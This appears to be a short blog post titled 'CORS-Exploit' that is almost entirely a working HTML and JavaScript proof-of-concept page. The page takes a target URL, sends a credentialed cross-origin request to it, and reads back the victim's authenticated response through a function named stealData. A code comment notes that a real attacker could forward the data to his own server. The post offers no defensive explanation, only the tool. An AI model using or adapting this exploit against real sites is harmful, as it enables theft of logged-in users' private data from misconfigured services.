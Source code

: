 +++
title = "CORS-Exploit"
date = "2019-03-10"
author = "m4xx"
description = "PWn.!PWn.!PWn.!"
+++


<!DOCTYPE html>
<html>
<head>
<title>CORS</title>
<script>
var turl;
function new_target(){
  turl = document.getElementById('target').value;
  
  document.getElementById('lable1').innerHTML = 'Target Loaded Successfully';
	
}
 
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", window.turl , true);
  xhttp.onload = stealData;
  xhttp.withCredentials = true;
  xhttp.send();

}
function stealData(){
        //read the response, and extract the data
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display it on the page. A real attacker can send the data to his server.
        output(data);
    }
 function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
</head>
<body>
<center>
<h2>CORs Exploit</h2>
<textarea id="target">
</textarea>
<br>
<button type="button" onclick="new_target()">Load New Target</button>
</div>
<br>
<lable id="lable1">Target Not Loaded Yet.!</lable>
<br>
<br>
<br>
<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

